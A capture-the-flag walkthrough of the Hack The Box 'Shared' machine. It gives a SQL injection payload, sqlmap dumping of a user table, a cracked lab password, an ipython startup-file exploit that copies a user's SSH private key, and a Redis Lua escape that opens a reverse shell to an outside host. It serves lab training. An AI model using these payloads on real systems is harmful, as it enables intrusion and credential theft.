



# [Shared](https://app.hackthebox.com/machines/shared)

```bash
nmap -p-  --min-rate 10000 10.10.11.172 -Pn 
```


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.172 -Pn
```


From nmap scan result, I need to add `shared.htb` domain into `/etc/hosts` file for resolving purposes.


While I open web application, I can see such webpage.


Let's start enumeration.


While I try to do `Proceed Checkout` action, it redirects me into `checkout.shared.htb` address, let's add this into `/etc/hosts` file also.


Now, I can see `checkout` webpage.


Let's look at this request via zaproxy to see full request body and headers.


I started to inject some payloads into `custom_cart` dictionary by starting `'` characters.


Let's inject `SQL Comment` to see that SQL injection is possible or not. So our payload `'-- -` should be like this.


As you it still prints the result, it means there'
s no Input Validation.

Let's try `Union-based SQLI` payloads.
```bash
custom_cart={"test' UNION SELECT 111,version(),3333-- -":"1"}
```


That's `MariaDB`. Let's automate `SQL Injection` via `sqlmap` tool by saving this request file as `.req`

```bash
sqlmap -r submit.req --level 5 --risk 3 --technique="U" 
```


Let's dump all databases via `--dbs` option.


Let's dump tables from `checkout` database via adding `-D checkout --tables` option.


Let's dump all data from `user` table located on `checkout` database. We do this `-D checkout -T user --dump` .




james_mason: fc895d4eddc2fc12f995e18c865cf273 (hash)


Let's crack this hash via [Crackstation](https://crackstation.net)


james_mason: Soleil101


Let's connect into machine via this credentials by using `ssh`.


Let's enumerate machine.


First of all, I want to upload `pspy64` into machine to see background jobs.


For this, I will open http.server as below.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```


Then download this binary via `wget` command.
```bash
wget http://10.10.14.18:8080/pspy64
```


After running of this binary, I see that user whose userid is `1001` runs `ipython` in background.


That's `dan_smith` user.


Let's look at version of `ipython` to search publicly known exploits.


That's [CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x)


Let's start exploiting this vulnerability. So my malicious `python` script is that stealing user's private key file by copying into `/tmp` directory.

```bash
mkdir -m 777 /opt/scripts_review/profile_default && mkdir -m 777 /opt/scripts_review/profile_default/startup && echo "import os; os.system('cat ~/.ssh/id_rsa > /tmp/dan.key')" > /opt/scripts_review/profile_default/startup/dr4ks.py
```


Now, let's join into machine via  private key file of `dan_smith` user.

```bash
chmod 600 id_rsa
ssh -i id_rsa dan_smith@shared.htb
```


user.txt


While I run `id` command, I see that this user belongs to `sysadmin` group.



Let's search files and directories belong to this group via `find` command.

```bash
find / -group sysadmin 2>/dev/null 
```


Let's download this into our machine and try to analyze this file


I downloaded it already.


While I run this binary on my box, it returns error as below.


To see target's `Redis` database, I will configure `Local Port Forwarding` via `ssh` command.

```bash
ssh -i id_rsa -L 6379:localhost:6379 dan_smith@shared.htb
```




Now, I can easily run this file and can get output.


As you see, here's say that `using password`. To  get clear-text password, I need to sniff, so I will use `Wireshark` to see clear-text password.


**Note:** I need to start sniffer for `Loopback`.

From `packet`, you see that `auth F2WHqJUz2WEz=Gqq` is written, it means our password is "F2WHqJUz2WEz=Gqq".


Let's connect into `Redis` via this password.


It says that `Redis's` version is `6.0.15`, I searched publicly known exploit and found [CVE-2022-0543](https://github.com/0x7eTeam/CVE-2022-0543/blob/main/CVE-2022-0543.py).


root.txt


We can get root shell by using below payload.
```bash
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("bash -c \'bash -i >& /dev/tcp/10.10.14.18/1337 0>&1\'"); return 0' 0
```


Hola I got reverse shell from port `1337`.

